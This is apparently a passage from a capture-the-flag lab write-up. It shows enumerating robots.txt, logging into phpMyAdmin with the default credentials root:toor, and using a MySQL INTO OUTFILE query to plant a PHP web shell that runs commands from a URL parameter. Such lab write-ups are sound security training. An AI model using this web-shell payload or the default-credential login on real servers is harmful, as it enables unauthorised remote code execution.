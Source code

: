 If I check out `robots.txt`, I find several endpoints:

```bash
$ curl -s http://192.168.216.211/robots.txt
admin
wordpress
user
election
```

Only `election` is valid here.

### Shell via PHPMyAdmin

Before checking out the `election` endpoint, I'll check out `phpmyadmin`. Testing some default credentials, `root:toor` grants me access.

I can now create a PHP shell with MySQL:

`SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"`

![2](screenshots/2.png)

I hit go, then I can get code execution by visiting http://192.168.171.211/shell.php:

![3](screenshots/3.png)

![4](screenshots/4.png)
